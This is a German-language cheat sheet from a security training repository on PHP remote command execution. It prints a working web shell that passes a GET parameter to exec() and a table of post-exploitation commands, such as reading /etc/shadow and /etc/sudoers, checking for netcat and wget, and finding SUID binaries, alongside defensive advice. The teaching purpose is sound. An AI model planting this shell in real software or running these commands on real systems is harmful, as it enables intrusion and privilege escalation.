 # 🐘 phpRCE Cheat Sheet




## Inhaltsverzeichnis
- [Einleitung: Remote Command Execution in PHP](#einleitung-remote-command-execution-in-php)
- [Beispiel: Verwundbarer PHP-Code](#beispiel-verwundbarer-php-code)
- [Sicherheitsanalyse](#sicherheitsanalyse)
- [Typische Post-Exploitation-Befehle](#typische-post-exploitation-befehle)
- [Anwendungsszenarien (für Lab- oder CTF-Zwecke)](#anwendungsszenarien-für-lab--oder-ctf-zwecke)
- [Verteidigung (Blue Team)](#verteidigung-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung: Remote Command Execution in PHP

Diese Datei beschreibt ein typisches Beispiel für **Remote Command Execution (RCE)** durch eine unsichere PHP-Webanwendung.  
Der Code ermöglicht es Angreifern, über einen GET-Parameter (`?cmd=`) beliebige Shell-Befehle auf dem Zielsystem auszuführen – **ein schwerwiegender Sicherheitsfehler**.



## Beispiel: Verwundbarer PHP-Code

```php
<?php
  if( empty( $_GET["cmd"] ) ){
    echo "Useful things:\n";
    echo "  uname -a\n";
    echo "  id\n";
    echo "  cat /etc/passwd\n";
    echo "  cat /etc/shadow\n";
    echo "  cat /etc/group\n";
    echo "  cat /etc/group | grep admin\n";
    echo "  cat /etc/sudoers\n";
    echo "  ls -la /home\n";
    echo "  ls -la /root\n";
    echo "  ls -la /var/www\n";
    echo "  which nc\n";
    echo "  which wget\n";
    echo "  find / -type f -perm -4000\n";
  }
  echo "<pre>";
  exec( $_GET["cmd"], $out );
  echo htmlentities( join( "\n", $out ) );
  echo "</pre>";
?>
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Sicherheitsanalyse

### ❌ Problem:

Die Funktion `exec($_GET["cmd"])` erlaubt die ungefilterte Ausführung von Systembefehlen, die über die URL übergeben werden.

→ Beispiel:
`http`
```http://target.local/rce.php?cmd=whoami```

### 🛠️ Besser wäre:

- Verwendung vorbereiteter Kommandos ohne Benutzereingaben.
- Whitelisting erlaubter Befehle.
- Nutzung von `escapeshellcmd()` und `escapeshellarg()` (nur bedingt sicher).
- Oder: Verzicht auf Shell-Zugriffe aus Webanwendungen.



## Typische Post-Exploitation-Befehle

| Befehl                       | Beschreibung                                          |                                   |
| ---------------------------- | ----------------------------------------------------- | --------------------------------- |
| `uname -a`                   | Kernel & OS-Details                                   |                                   |
| `id`                         | Aktueller Benutzer & Gruppen                          |                                   |
| `cat /etc/passwd`            | Benutzerliste                                         |                                   |
| `cat /etc/shadow`            | Passwort-Hashes (nur als root lesbar)                 |                                   |
| `cat /etc/group`             | Gruppenliste                                          |                                   |
| `cat /etc/group`             | grep admin                                            | Prüfen, wer in "admin"-Gruppe ist |
| `cat /etc/sudoers`           | Wer hat Root-Rechte über sudo                         |                                   |
| `ls -la /home`               | Benutzerverzeichnisse prüfen                          |                                   |
| `ls -la /root`               | Root-Verzeichnis prüfen (meist geschützt)             |                                   |
| `ls -la /var/www`            | Webverzeichnis analysieren                            |                                   |
| `which nc`                   | Ist Netcat vorhanden?                                 |                                   |
| `which wget`                 | Ist wget verfügbar für Datei-Downloads?               |                                   |
| `find / -type f -perm -4000` | Alle SUID-Binaries finden (root privilege escalation) |                                   |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Anwendungsszenarien (für Lab- oder CTF-Zwecke)

- 🧪 Testen von Webshells in Laborumgebungen
- 🔍 Auffinden & Ausnutzen von RCE-Schwachstellen
- 🔐 Erkennen typischer Privilege Escalation-Pfade
- 🛠️ Automatisierung mit curl, Burp oder Exploitskripten

 

## Verteidigung (Blue Team)

- Verwende niemals Benutzereingaben direkt in `exec()`, `system()`, `passthru()` etc.
- Setze Application Firewalls ein (z. B. ModSecurity).
- Nutze sichere Webframeworks mit Sandboxing.
- Begrenze Rechte des Webservers (z. B. www-data darf nicht root sein).
- Erkenne Anomalien per Logüberwachung (z. B. suspicious cmd= Requests).



## Siehe auch

- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/injektionen/sql_injection_to_shell.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/injektionen/sql_injection_to_shell.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/break-fix/break_and_fix_query.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/break-fix/break_and_fix_query.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/14-vulnerabilities/sqlInjection/union_based_attack.md](https://github.com/bitRaybytes/cybersecurity/blob/main/14-vulnerabilities/sqlInjection/union_based_attack.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---